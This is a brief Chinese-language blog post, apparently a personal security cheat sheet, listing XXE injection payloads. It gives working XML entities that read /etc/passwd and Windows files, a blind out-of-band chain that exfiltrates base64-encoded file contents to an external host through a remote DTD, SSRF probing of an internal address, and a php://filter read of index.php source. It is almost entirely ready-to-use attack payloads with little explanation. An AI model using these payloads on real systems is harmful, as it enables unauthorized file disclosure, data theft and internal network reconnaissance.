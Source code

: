 ```yaml
---
layout: post
title: XXE
subtitle: XXE
date: 2023-08-06 20:03
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
---
```

# XXE payload

1、**有回显—读服务器文件：**

```xml
<?xml version="1.0"?>
<!DOCTYPE ANY [
        <!ENTITY content SYSTEM "file:///etc/passwd">
        <!--<!ENTITY content SYSTEM "file:///c://Windows//System32//test.txt">-->
]>
<x>&content;</x>
```

2、**无回显-读取文件** 

```xml
<?xml version="1.0"?>
<!DOCTYPE test [
        <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=d:/test.txt">
        <!ENTITY % dtd SYSTEM "http://192.168.30.130:8081/test.dtd">
        %dtd;
        %send;
]>

test.dtd:
<!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'http://192.168.30.130:8081/?data=%file;'>">
%payload;
```

2、**SSRF—探测端口：**

适用于有回显和blind xxe，也是外部一般实体：

```xml
<?xml version="1.0"?>

<!DOCTYPE ANY [

    <!ENTITY content SYSTEM "http://10.165.89.150:88">]>

<name>&content;</name>
```

3、**如果是php的话，可以用php的filter协议直接读出文件**

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE r [ 
<!ELEMENT r ANY>
<!ENTITY goodies SYSTEM "php://filter/read=convert.base64-encode/resource=index.php"> ]> 
<creds>&goodies;</creds>
```

